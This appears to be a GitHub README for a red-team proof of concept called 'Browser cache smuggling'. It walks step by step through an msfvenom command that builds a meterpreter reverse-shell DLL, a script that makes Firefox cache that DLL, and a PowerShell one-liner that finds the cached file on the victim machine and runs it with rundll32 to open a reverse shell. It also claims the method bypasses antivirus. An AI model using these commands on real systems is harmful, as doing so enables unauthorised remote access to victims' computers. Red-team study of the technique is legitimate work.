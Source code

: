 # Browser cache smuggling Attack

- This repository is all about the POC that can be leveraged down for initial access in red teaming engagements.
- This has the capabilities to bypass AV , depends on from where DLL is generated !!
- This Repo is in development , we will be adding more module for Brave & Chrome Browser soon....

# Theory Behind it :

![](https://raw.githubusercontent.com/surya-dev-singh/BrowserCacheSmuggling/main/Firefox%20Cache%20Smuggling.png)

- To better understand how this attack work , please navigate to:
https://surya-dev-singh.github.io/posts/Cache-Smuggling-Attack/

# How to Execute it ?

## **Step 1 :** 
Git Clone the URL  & install the dependency : `pip3 install -r requirements.txt` 
also make sure Nginx is installed on the machine 

## **Step 2:** 
create your malicious DLL file , from your favorite C2 server . example :
`msfvenom -p /windows/x64/meterpreter/reverse_tcp LHOST=<localip> LPORT=<local_port> -f dll -o malicious.dll` and configure your listener accordingly .

## **Step 3:**
Host you rouge Server that coerce browser to Cache The response.

```python3
python3 browsercachesmuggling.py --dll /root/smugglers.dll <malicious_dll>
```

![](https://surya-dev-singh.github.io/assets/img/Cache%20Smuggling%20Attack/Pasted%20image%2020231025192341.png)

## Step 4:
Once Our data is begin cache , we can now run the following command on victim PC like so: 

```powershell
foreach ($files in @("$env:LOCALAPPDATA\Mozilla\Firefox\Profiles\*.default-release\cache2\entries\")) {Get-ChildItem $files -Recurse | ForEach-Object {if (Select-String -Pattern "ENTRYPOINT" -Path $_.FullName) {$dllPath = $_.FullName + '.'; rundll32.exe $dllPath,MainDll}}}
```
**NOTE:** From the above command , make sure when u are running the dll file from rundll32 , you provide proper entry point eg (MainDLL) , which may be different for havoc C2.
and we will get our reverse shell !! 
